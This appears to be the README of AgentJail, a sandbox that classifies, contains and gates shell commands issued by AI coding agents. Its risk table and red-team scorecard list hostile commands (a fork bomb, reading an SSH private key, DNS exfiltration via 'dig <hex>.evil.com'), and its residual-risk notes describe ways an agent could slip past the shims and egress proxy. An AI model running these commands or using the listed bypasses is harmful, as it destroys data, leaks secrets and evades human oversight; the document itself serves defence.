

<div align="center">

# AgentJail

**A containment runtime for AI coding agents.**

Your agent proposes. AgentJail inspects, sandboxes, and asks — before anything touches your machine.

[](LICENSE)
[](pyproject.toml)
[](tests/)
[](#mcp-gateway)

[Quickstart](#quickstart) · [How it works](#how-it-works) · [Invisible mode](#invisible-mode) · [Security model](#security-model) · [Contributing](CONTRIBUTING.md)

</div>

---

> **Demo**
>
> _Video walkthrough coming soon._

---

## The problem

Coding agents run shell commands. Most of the time that is `pytest` and `npm install`. Occasionally it is `rm -rf`, a rewritten `.env`, or a package that phones home.

You find out afterward.

## What AgentJail does

Every command is classified before it executes, runs against a copy-on-write clone of your workspace inside an ephemeral container, and only reaches your real files when you say so.

| | Without AgentJail | With AgentJail |
|---|---|---|
| `pytest` | Runs on your machine | Runs in a disposable sandbox |
| `npm install left-pad` | Installs, unbounded network | Sandboxed, whitelist egress only |
| `echo secret > .env` | Overwrites your file | Waits for your approval |
| `rm -rf build` | Gone | Blocked before it starts |
| Agent "forgets" you rejected it | Keeps going | `SYSTEM OVERRIDE` re-syncs its memory |

---

## Quickstart

**Requirements:** Python 3.11+, Docker running, host `git`.

```bash
git clone https://github.com/ADITYALONE/AgentVigilante.git && cd AgentVigilante
python3 -m venv .venv && source .venv/bin/activate
pip install -e .

agentjail setup     # build the sandbox image (once)
agentjail init      # wire up Cursor / Claude / Windsurf MCP
agentjail start     # console → http://127.0.0.1:8420
```

Restart your IDE after `init` so the MCP server loads.

Try it:

```bash
curl -s http://127.0.0.1:8420/v1/commands \
  -H 'Content-Type: application/json' \
  -d '{"command":"echo hello > greeting.txt","timeout":10}'
```

That is a RISKY write. It appears in the console — and as a native dialog — waiting for **Approve** or **Deny**.

---

## How it works



1. **Classify** — a `bashlex` AST pass sorts every command into SAFE, RISKY, or CRITICAL.
2. **Clone** — the job gets a copy-on-write shadow of your workspace. Docker mounts the shadow, never the origin.
3. **Contain** — non-root container, CPU/memory caps, `pids_limit=64`, `cap_drop=ALL`, destroyed after the turn.
4. **Filter** — outbound traffic passes a whitelist CONNECT proxy; DNS inside the sandbox is blackholed.
5. **Decide** — approve, deny with feedback, promote the diff, or revert the hologram and the agent's memory with it.

---

## Three ways to route agents through the jail

| | MCP gateway | `agentjail wrap` | Invisible mode |
|---|---|---|---|
| Setup | `agentjail init` | `agentjail wrap cursor .` | `agentjail invisible enable` |
| Intercepts | Tool calls the model chooses | PATH lookups for `bash`, `npm`, `python`, … | Same, globally, every terminal |
| Built-in IDE Shell | No | Yes | Yes |
| Runs in background | No | No | launchd / systemd |
| Interrupts you | Every RISKY | Every RISKY | Anomalies only |

### MCP gateway

```bash
agentjail init              # patches Claude / Cursor / Windsurf
agentjail init --project    # also ./.cursor/mcp.json
```

Tools exposed: `agentjail_exec`, `agentjail_job_status`, `agentjail_revert`.

<details>
<summary>Manual MCP config</summary>

```json
{
  "mcpServers": {
    "agentjail": {
      "command": "python",
      "args": ["-m", "agent_jail.mcp_server"],
      "env": { "AGENTJAIL_URL": "http://127.0.0.1:8420" }
    }
  }
}
```

</details>

### PATH shims (`agentjail wrap`)

MCP is a *soft* boundary — the model can still reach for a built-in Shell tool. Wrapping is harder: shims in `~/.agentjail/shims` intercept the binary lookup itself.

```bash
agentjail shim-install
agentjail wrap claude       # CLI agents
agentjail wrap cursor .     # launches Cursor with shimmed PATH (macOS)
```

`wrap` prepends the shim directory to `PATH`, points `SHELL` at the shimmed shell, and launches GUI apps by their binary so the environment survives. Set `AGENTJAIL_BYPASS=1` for deliberate host passthrough.

> **Residual risk:** an absolute invocation such as `/bin/zsh -c ...` skips PATH entirely and is not intercepted.

---

## Invisible mode

Interactive is the default. Invisible mode is for when you want the guard running without the ceremony.

```bash
agentjail invisible enable     # background service + shell PATH + autopilot
agentjail invisible status
agentjail invisible disable    # back to interactive
```

| | Interactive (default) | Invisible |
|---|---|---|
| Daemon | `agentjail start` | launchd / systemd |
| PATH | opt-in via `wrap` | injected into `.zshrc` / `.bashrc` |
| `npm install`, `pytest` | waits for approval | silent autopilot in the hologram |
| `.env` / `.ssh` writes | waits | waits, prompts in your IDE |
| `rm -rf`, fork bombs | blocked | blocked, toast in your IDE |
| Where you approve | browser / native dialog | IDE status bar |

**Autopilot** is what keeps it quiet: standard development commands run straight through the sandbox, and you are only interrupted by anomalies — sensitive-path writes, global installs, `git push`, destructive patterns.

Service control on its own:

```bash
agentjail service install | uninstall | status | start | stop
```

### IDE extension

[`extensions/vscode/`](extensions/vscode/) adds a status bar item — `AgentJail: Active (0 pending)` — with one-click **Approve** / **Block** when something needs you. Install instructions live in that folder.

---

## Security model

### Risk routing

| Risk | Examples | Behavior |
|------|----------|----------|
| **SAFE** | `ls`, `pwd`, `cat`, `git status` | Auto-runs in the sandbox |
| **RISKY** | `npm install`, `pip install`, `echo x > file`, `python script.py`, `ln` | Waits for approval (autopilot may auto-run the routine ones) |
| **CRITICAL** | `rm -rf`, `curl`, `dig`, `nc`, fork bombs, `cat ~/.ssh/id_rsa` | Blocked immediately |

### Defense in depth

1. **Pre-flight AST analyzer** (`bashlex`) — classification before execution
2. **Human in the loop** — approve, deny with feedback, or deny and revert
3. **Docker isolation** — non-root `1000:1000`, memory/CPU caps, `pids_limit=64`, `cap_drop=ALL` (+ `SYS_PTRACE` for tracing), `no-new-privileges`, ephemeral
4. **Whitelist CONNECT egress** — allowed hosts only, no TLS interception
5. **DNS blackhole** — `dns=127.0.0.1` inside the container; registry hosts pinned via `extra_hosts`
6. **Symlink guard** — SAFE commands touching workspace symlinks escalate to review and are rechecked at approve time
7. **Git Time Machine** — checkpoints under `refs/agentjail/*` inside the hologram
8. **Memory revert** — wiping the shadow also injects a one-shot `SYSTEM OVERRIDE` so the model stops believing its change landed

### Egress whitelist

`pypi.org`, `files.pythonhosted.org`, `registry.npmjs.org`, `github.com`, `objects.githubusercontent.com`, `nodejs.org` and their subdomains.

Containers get `HTTP(S)_PROXY=http://host.docker.internal:8888`. Clients that honor the proxy are filtered at CONNECT.

> **Residual risk:** raw TCP to literal IPs, and tools that ignore `HTTP_PROXY` (`curl --noproxy '*'`), can still leave via the Docker bridge until an iptables sidecar lands. Treat **Approve** as a privileged action.

<details>
<summary>Red-team scorecard</summary>

| Scenario | Verdict | Notes |
|----------|---------|-------|
| **Natural-language disguise** — `python exploit.py` wrapping `curl` | AST sees only `python` → RISKY (human review). Proxy-aware HTTPS to non-whitelist hosts is blocked after approve. | Nested payloads are not AST-visible; blackholed DNS and CRITICAL `curl` reduce impact. |
| **Fork bomb** — `:(){ :\|:& };:` | Inline pattern → CRITICAL. Script-borne variants hit `pids_limit=64` and the `nproc` ulimit. | PID exhaustion is contained at the cgroup. |
| **DNS exfiltration** — `dig <hex>.evil.com` | `dig` / `nslookup` / `host` → CRITICAL; resolver blackholed. | A public resolver would not help — query labels still leak. Residual: raw UDP/TCP to attacker IPs. |
| **TOCTOU symlink escape** | Bind mounts do not traverse symlinks to the host FS; workspace symlinks escalate SAFE → RISKY and are blocked at approve. | Shared read-write races remain a concurrency concern, not a host escape. |

</details>

---

## Console

The UI is a Vite + React + shadcn app in [`web/`](web/): landing at `/`, containment console at `/console`.

Approve or deny pending commands, stream live terminal output over WebSocket, inspect filesystem diffs, review kernel telemetry from `strace -f`, promote a hologram into your real workspace, or hit E-Stop.

```bash
cd web
npm install
npm run build      # outputs web/dist, served by FastAPI
npm run dev        # optional live reload on :5173
```

| Flag | Default |
|------|---------|
| `--host` | `127.0.0.1` |
| `--port` | `8420` |
| `--workdir` | `./workspace` |
| `--base-image` | `agentjail-sandbox:local` |
| `--proxy-port` | `8888` |
| `--no-native-notify` | off |

---

## API

<details>
<summary>HTTP endpoints</summary>

```bash
# SAFE — auto-executes
curl -s http://127.0.0.1:8420/v1/commands \
  -H 'Content-Type: application/json' \
  -d '{"command":"ls -la","timeout":10}'

# RISKY — pending approval
curl -s http://127.0.0.1:8420/v1/commands \
  -H 'Content-Type: application/json' \
  -d '{"command":"echo hello > greeting.txt","timeout":10}'

curl -s -X POST "http://127.0.0.1:8420/v1/commands/${JOB_ID}/approve"
curl -s "http://127.0.0.1:8420/v1/commands/${JOB_ID}"

# Runtime state for IDE integrations
curl -s http://127.0.0.1:8420/v1/status
curl -s http://127.0.0.1:8420/v1/events/recent

# Egress log and emergency stop
curl -s http://127.0.0.1:8420/v1/egress/events
curl -s -X POST http://127.0.0.1:8420/v1/estop
```

Live output stream: `ws://127.0.0.1:8420/v1/commands/{id}/stream`

</details>

---

## Development

```bash
git clone https://github.com/ADITYALONE/AgentVigilante.git
cd AgentVigilante

python3 -m venv .venv && source .venv/bin/activate
pip install -e .
agentjail setup
cd web && npm install && npm run build && cd ..
agentjail start
```

Run the suite (offline, no Docker required):

```bash
python -m unittest discover -s tests -v
```

<details>
<summary>Project layout</summary>

```text
agent_jail/
├── cli.py                # init / setup / start / wrap / invisible / service
├── config.py             # ~/.agentjail/config.json
├── shim.py               # PATH shim generation
├── exec_shim.py          # shim → daemon client
├── wrap.py               # environment composition and app launch
├── service.py            # launchd / systemd units
├── shell_integration.py  # .zshrc / .bashrc injection
├── notify.py             # native Approve / Deny dialogs
├── mcp_server.py         # MCP stdio server
├── core/
│   ├── command_analyzer.py   # AST risk classification
│   ├── autopilot.py          # silent-run allowlist
│   ├── hologram.py           # COW shadow workspaces
│   ├── isolation.py          # Docker sandbox
│   ├── egress_proxy.py       # whitelist CONNECT proxy
│   ├── checkpoint.py         # git Time Machine
│   ├── path_guard.py         # symlink guard
│   ├── strace_profile.py     # kernel telemetry
│   ├── diff_engine.py
│   └── proxy.py              # FastAPI routes
├── dashboard/server.py
extensions/vscode/        # Cursor / VS Code status bar
web/                      # Vite + React console
tests/
```

</details>

---

## Distribution

| Channel | Command | Status |
|---------|---------|--------|
| Source | `pip install -e .` | available |
| PyPI | `pip install agentjail` | pending publish |
| npx wrapper | `npx agentjail-cli init` | pending publish |
| Smithery | `npx -y @smithery/cli install agentjail --client claude` | pending publish |

Registry stubs live in [`smithery.yaml`](smithery.yaml) and [`npm/agentjail-cli/`](npm/agentjail-cli/).

---

## Contributing

Issues and PRs are welcome — start with [CONTRIBUTING.md](CONTRIBUTING.md). Because this is a security tool, every PR states its security impact, even when that impact is none.

Found a bypass? Email **adityapunjani9@gmail.com** instead of opening a public issue.

## License

[MIT](LICENSE) © Aditya Punjani
